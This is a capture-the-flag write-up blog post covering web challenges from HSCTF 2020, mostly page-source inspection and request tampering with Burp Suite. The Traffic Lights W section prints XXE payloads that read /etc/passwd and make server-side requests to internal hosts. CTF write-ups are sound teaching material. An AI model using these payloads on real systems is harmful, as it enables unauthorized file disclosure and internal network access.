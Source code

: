 ```yaml
---
layout: post
published: true
title: "HSCTF7 2020 Writeup | Web"
date: 2020-06-06 13:32:20 +0300
description: HSCTH 7 Writeup | Blurry Eyes, Debt Simulator, Inspector Gadget, Broken Tokens
, Traffic Lights W ,.
excerpt: "HSCTF 2020 writeups for web catagory."
image: "/images/hsctf/logos.png"
sitemap:
    priority: 0.8
---
```


<style>
img {
  width: 90%;
}
</style>
These are all the writeup of web challanges in HSCTF7.<br />
## Blurry Eyes
---
>I can't see :( 
 https://blurry-eyes.web.hsctf.com

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_1.png)


The webpage contain information about CTF's. But there is flag in the bottom which seems blurred!!
The source page also does not have anything interesting, moving to inspect element.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_2.png)


Deleting the name blur from the span tag shows the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)

Also you can get the flag by clicking on the "span class="poefKuKjNPojzLDf" as this class stores the flag in the css file.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_4.png)


``` Flag- flag{glasses_are_useful} ```

## Debt Simulator
---
>https://debt-simulator.web.hsctf.com/

The webpage shows a strange game which says "Very Realistic" as everytime we loose in the game.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_1.png)


Moving to source page didn't showed anything interesting so intersepting request using Burp Suite.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_2.png)

It seems that it is calling some function everytime we create a move in the game.<br>Now we need to find out or gess the correct function to display the flag. Now again searching the .js files in the source code gives a link "https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001" from where it is fetching the function.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_3.png)

Opening the link gives us all the three functions that the site is calling.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_4.png)

Replacing the function in the burp by "getgetgetgetgetgetgetgetgetFlag" gives us the flag..


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf2_5.png)


```Flag- flag{y0u_f0uND_m3333333_123123123555554322221} ```


## Inspector Gadget
---
>https://inspector-gadget.web.hsctf.com/

This was the easiest as opening the source code directly gives us the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf3_1.png)


```Flag- flag{n1ce_j0b_0p3n1nG_th3_1nsp3ct0r_g4dg3t} ```

<!--
##  Broken Tokens
---
>I made a login page, is it really secure?
  https://broken-tokens.web.hsctf.com/
  Note: If you receive an "Internal Server Error" (HTTP Status Code 500), that means that your cookie is incorrect.


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


Decoding the Vigenere Cipher using this online [tool](https://www.boxentriq.com/code-breaking/vigenere-cipher) 
<br />

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)

Gives us the text but the flag is not accurate though we get the automatic generated key.Using the same key on the [CyberChef Tool](https://gchq.github.io/CyberChef/)  
gives the proper flag format..


![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf1_3.png)


``` Flag- ```                 -->

##  Traffic Lights W
---
>Can you figure out what's going on with this shady company?
    https://traffic-light-w.web.hsctf.com/
 

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_1.png)

This challange is simply XXE vernerable if we move to upload firmware option there it asks to upload a XML.
A example file is also given as :
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_2.png)

I tried to upload a XXE payload to check if it is vernerable.
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_3.png)

The website seems XXE(XML External Entity) vernerable.

now we need it to display the flag.On the homepage it shows some docker hostname in which only two are active.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_3_1.png)

Using the hostname "traffic-light-1001" in our xml payload shows noting then using "traffic-light-1004" as :
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004"> ]>
<root>
  <content>&xxe;</content>
</root>
```

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_4.png)

This payload works and gives us the flag..

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf5_5.png)


``` Flag- flag{shh_im_mining_bitcoin} ```

##  Very Safe Login
---
>Bet you can't log in.
 https://very-safe-login.web.hsctf.com/very-safe-login

The page shows the login page, opening the source code shows the function used logging in the form.
![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf6_1.png)

Logging in using the username and password given gives the flag.

![HSCTF]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/hsctf/hsctf6_2.png)


``` Flag- flag{cl13nt_51de_5uck5_135313531} ```


<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>

